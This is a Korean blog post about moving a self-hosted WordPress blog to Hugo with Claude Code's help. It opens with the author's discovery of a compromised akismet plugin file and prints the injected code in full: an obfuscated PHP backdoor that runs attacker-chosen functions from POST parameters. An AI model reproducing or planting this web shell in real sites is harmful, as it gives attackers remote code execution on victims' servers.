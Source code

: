 ```yaml
---
title: "Claude Code와 함께한 워드프레스에서 Hugo로의 블로그 마이그레이션"
slug: "워드프레스-Hugo-마이그레이션"
date: 2025-07-14T00:00:00+09:00
categories:
  - 웹 개발
  - 워드프레스 개발
tags:
  - wordpress
  - hugo
  - migration
  - claude code
  - GitHub Pages
---
```


## 더 이상 참을 수 없었던 셀프호스팅 워드프레스의 한계

셀프 호스팅 워드프레스를 버전 업데이트 없이 너무 오래 방치했더니 나도 모르게 취약점에 의해 악의적인 코드가 주입되어 간헐적으로 이상한 웹사이트로 리디렉션된다는 사실을 최근에 파악했다.
처음에는 악성 크롬 익스텐션이나 다른 스크립트 문제인 줄 알았는데, 알고보니 워드프레스 자체에 악성 코드가 삽입되어 있었던 것이다.

공식 플러그인 중 하나인 akismet의 파일 중 하나에 이런 코드가 심어져있었다. 어떤 취약점을 통해 이렇게 된 것인지 까지는 파악 실패했으나
얼핏 봐도 수상하길래 ChatGPT에 물어보니 공격자가 나중에 POST로 원하는 명령을 보내서 동적으로 코드 실행이 가능한 백도어라고 한다.

```php
<?php
$hello_dolly[]='b585aaea022f1529';
$hello_dolly[]=$_POST;
$hello_dolly[]='color';
if (isset($hello_dolly[1][$hello_dolly[0]])) {
       $dolly = $hello_dolly[1][$hello_dolly[2]]($hello_dolly[1]['theme']($hello_dolly[1][$hello_dolly[0]]));
       $dolly['themes'] = $dolly['theme']();
       $dolly['footer'] = $dolly['footer']($dolly['themes'])[$dolly['name']];
       $dolly['body']($dolly['themes'], $dolly['color']($dolly['header']));
       require_once($dolly['footer']);
       $dolly['size']($dolly['themes']);
}
?>
```

매번 워드프레스와 설치된 플러그인들 버전 호환성을 봐가면서 업그레이드하는 것이 번거롭다보니 버전업을 자꾸 더 미루다가 결국 문제가 발생한 것이다.
게다가 워드프레스 최신 버전에서 글 작성에 사용되는 블록 기반 에디터가 오히려 예전처럼 마크다운으로 글을 작성하는 것보다 불편해서 마음에 들지 않았다.

그래서 이 기회에 취약점도 없고 서버 비용 절감도 할 겸 속도가 빠른 정적 페이지 기반의 웹페이지 빌더 방식으로 블로그를 갈아타려고 마음을 먹었다.
이 생각은 몇년 전부터 계속 하고 있었으나, 기존에는 이것 저것 새로 설정할 것들이 많다보니 시간이 오래걸릴 것 같아 쉽게 마이그레이션 할 엄두가 나지 않았다.
하지만 지난 달 부터 코드 작성을 하는데 Claude Code를 잘 사용중이었고, 이걸 이용하면 하루정도면 마이그레이션을 할 수 있지 않을까? 생각했다. 그저께 실제로 행동에 옮겼고, 정말로 24시간 안에 아래처럼 완벽하게 마이그레이션을 완료할 수 있었다.

{{< responsive-img src="legacy-letmecompile-com.png" alt="리뉴얼 전 letmecompile.com 스크린샷" show-caption="true" >}}
{{< responsive-img src="renewal-letmecompile-com.png" alt="리뉴얼 후 letmecompile.com 스크린샷" show-caption="true" >}}

